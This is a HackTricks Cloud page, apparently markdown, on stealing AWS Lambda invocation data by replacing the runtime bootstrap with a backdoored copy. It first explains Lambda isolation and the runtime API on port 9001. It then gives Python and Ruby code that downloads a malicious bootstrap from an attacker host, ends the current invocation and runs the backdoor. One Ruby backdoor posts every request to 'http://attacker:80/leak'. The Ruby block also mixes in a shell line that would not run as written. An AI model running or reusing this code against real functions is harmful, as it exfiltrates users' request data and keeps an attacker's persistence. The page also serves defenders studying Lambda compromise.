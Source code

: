 # AWS - Steal Lambda Requests

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Introduction <a href="#python-runtime" id="python-runtime"></a>

This attack supposes that you have some kind of **access over a running Lambda**.\
Also, something important to note is that **Lambda invocations aren’t completely separated from each other but are isolated**. They could run, though not simultaneously, in the same execution environment. With that in mind, let’s start dissecting that environment.

### Isolation

Lambda isolation uses thi cgroups:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

As the prefix 'sandbox' didn’t match any common container engine(docker, podman, LXD, rkt), it could be a proprietary container engine, which could be internally using an open source container runtime like [runC](https://github.com/opencontainers/runc).

### How Lambdas work  <a href="#python-runtime" id="python-runtime"></a>

This appears to be the python Lambda architecture:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. A process outside the container, referred to as the "**slicer"** in the init binary, sends invocation events to the **init** process via shared memory.
2. The init process sets up an HTTP server on port 9001 (hard-coded), with several exposed endpoints:
   1. /2018-06-01/runtime/invocation/**next** – get the next invocation event
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – return the handler response for the invoke
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – return an execution error
3.  In `bootstrap.py` the following loop **queries the init process for a new event**, and then **calls the user’s function** to handle it (here, the request handler you uploaded runs).\


    <figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
4. The **handler response is then sent back to the init process** through one of the following endpoints:
   1. `/{invoke-id}/response` – if the user handler executed successfully
   2. `/{invoke-id}/error` – if an exception was raised during the handling of the invoke

## Technique Summary <a href="#python-runtime" id="python-runtime"></a>

It's possible to **substitute the bootstrap script** with malicious code to be able to **intercept data** sent to the Lambda function.\
Note tha**t other engines in other languages** have another **bootstrap** **script** written in that language, so this can be done **also in other lambdas using other languages**, not only in python.

## Python <a href="#python-runtime" id="python-runtime"></a>

From the lambda, download **`/var/runtime/bootstrap.py`**  (or just spin up **your own lambda** and get it) and add the backdoor that will be leaking all the data sent to Lambda. You just need to add a couple of lines such as:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Replacing Runtime

Now with the new **`boostrap.py` created**, it's possible to **download** it, **end the current lambda** **invocation** and run it to **replace** the legit one:

```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
    f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```

Or you could also use [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), which will end the invocation as done previously, run the new bootstrap and exfiltrate the information.

{% hint style="warning" %}
If a lambda function is not used for 5-15 minutes it will be shut down, and all the changes will be lost the next time it's invoked.
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

In ruby, the file you want to backdoor is **`/var/runtime/lib/runtime.rb`** file (get it from the system or running your own lambda).

Adding a backdoor is as simple as done in the python version:

```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin 
    context = lambdaContext.new(raw_request)
    uri = URI('http://attacker:80/leak')
    Net::HTTP.post(uri,JSON.generate(request))
    [...]
```

Then, you just need to do what you did in the python version with just a change:

* **Download the backdoor in a directory**
* **Symlink** `/var/runtime/lib/*` with the directory where the backdoor is
* Finish the current lambda invocation

```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
